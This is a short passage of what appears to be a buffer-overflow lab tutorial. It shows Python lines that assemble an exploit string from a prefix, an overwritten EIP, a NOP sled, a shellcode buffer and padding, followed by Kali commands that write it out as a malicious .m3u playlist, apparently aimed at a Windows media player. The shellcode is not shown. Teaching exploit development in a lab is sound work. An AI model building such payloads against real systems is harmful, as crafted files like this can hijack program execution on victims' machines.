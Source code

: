 - Scroll to the bottom of the file.
- Add these lines at the bottom, as shown below.
  ```bash
  padding = 'F' * (30000 - len(prefix) - 4 - 4 - 16 -len(buf))
  attack = prefix + eip + skip4 + nopsled + buf + padding
  print attack
  ```
  ![Picture](../11.%20Windows%20Buffer%20Overflows/Image/36.png)
- On your Kali Linux machine, in a Terminal window, execute these commands.
  ```bash
  chmod a+x ezm-attack2
  ./ezm-attack2 > ezm-attack2.m3u
  cp ezm-attack2.m3u ~/Desktop
  ```
  ![Picture](../11.%20Windows%20Buffer%20Overflows/Image/37.png)
